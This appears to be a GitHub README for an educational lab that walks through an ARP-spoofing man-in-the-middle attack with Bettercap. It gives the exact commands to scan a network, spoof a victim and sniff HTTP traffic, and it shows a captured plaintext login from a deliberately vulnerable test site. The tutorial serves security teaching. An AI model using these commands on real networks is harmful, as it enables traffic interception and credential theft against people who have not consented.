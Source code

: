 # ARP-MITM-Bettercap
> ⚠️ **Disclaimer**: This project is for educational purposes only. Do **not** perform these actions on networks you do not own or have explicit permission to test. Unauthorized access is illegal.

## 🎯 Objective

The main objective of our project is to demonstrate Man-in-the -Middle attack using ARP spoofing. This includes capturing unencrypted http packet through traffic sniffing and storing the log in a file for further use which include security risk associated with such attacks on unsecured networks.   


## LAB SET-UP
### 💻 Attacker Machine

**OS**: Kali Linux 2024.1  

**Tool Used**: Bettercap  

**IP Address**: 192.168.1.5  

**Role**: Perform ARP spoofing, sniff HTTP traffic

### 🖥️ Victim Machine

**OS**: Ubuntu or Windows 10   

**Browser**: Firefox / Chrome  

**IP Address**: 192.168.1.10  

**Role**: Target of the attack, visiting HTTP websites

### 🌐 Network Setup

**Type**: Bridged Adapter (VirtualBox)  

**Interface**: `eth0` (for attacker)  

**Same Local Network**: Yes ✅   

  Check your network  interface:  
  ```bash
  ip a
  ```
  Check your Default gateway:(victim)
  ```bash
  ip route
  ```
Install **Bettercap** if not already installed:

```bash
 sudo apt update
 sudo apt install bettercap
 ```

1. **Start Bettercap and save logs in a file:**
    ```bash
    sudo bettercap -iface eth0 | tee <Name of the file>.txt
    ```

2. **Scan Network:**
    ```bash
    net.probe on
    ```
    ``` output
    192.168.1.0/24 > 192.168.1.5  » net.probe on
    [10:09:18] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [sys.log] [inf] net.probe probing 256 addresses on 192.168.1.0/24
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint fe80::xxxx:xxxx:xxxx:xxxx detected as **AA:BB:CC:DD:EE:01** (Generic Device Vendor)
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint 192.168.1.10 detected as **AA:BB:CC:DD:EE:02** (Generic Device Vendor)
```

net.show
```
```output
192.168.1.0/24 > 192.168.1.5  » net.show

┌────────────────────────────┬────────────────────┬─────────────────┬──────────────────────────────────────────────┬───────┬───────┬──────────┐
│           IP ▴             │        MAC         │      Name       │                    Vendor                    │ Sent  │ Recvd │   Seen   │
├────────────────────────────┼────────────────────┼─────────────────┼──────────────────────────────────────────────┼───────┼───────┼──────────┤
│ 192.168.1.5                │ AA:BB:CC:11:22:33   │ eth0            │ PCS Systemtechnik GmbH                       │ 0 B   │ 0 B   │ 10:09:11 │
│ 192.168.1.13               │ DD:EE:FF:44:55:66   │ gateway         │                                              │ 695 B │ 477 B │ 10:09:11 │
│                            │                    │                 │                                              │       │       │          │
│ fe80::xxxx:xxxx:xxxx:xxxx  │ FF:AA:CC:77:88:99   │ LAPTOP-USER     │ CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD. │ 0 B   │ 0 B   │ 10:09:20 │
│ 192.168.1.10               │ 11:22:33:44:55:66   │                 │ PCS Systemtechnik GmbH                       │ 120 B │ 92 B  │ 10:09:20 │
└────────────────────────────┴────────────────────┴─────────────────┴──────────────────────────────────────────────┴───────┴───────┴──────────┘
```

3. **Set Victim IP:**
    ```bash
    set arp.spoof.targets 192.168.1.10
    ```

4. **Launch Attack:**
    ```bash
    arp.spoof on
    http.proxy on
    net.sniff on
    ```

5. **Ask the victim to visit a non-HTTPS site** (for demonstration):
    ```
    http://testphp.vulnweb.com/login.php
    ```

6. **Captured Output:**
    ```OUTPUT
    192.168.1.0/24 > 192.168.1.5  » [10:10:36] [net.sniff.http.request] http 192.168.1.10 POST testphp.vulnweb.com/userinfo.php                                                                                              POST /userinfo.php HTTP/1.1
          Host: testphp.vulnweb.com
          Origin: http://testphp.vulnweb.com
          Connection: keep-alive
          Upgrade-Insecure-Requests: 1
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
          Accept-Encoding: gzip, deflate
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 23
          Priority: u=0, i
          User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
          Accept-Language: en-US,en;q=0.5
          Referer: http://testphp.vulnweb.com/login.php

          uname=demoUser&pass=demoPass

    ```
   7.**see the output**
   ```
   cat <Name of the file>.txt
  ```
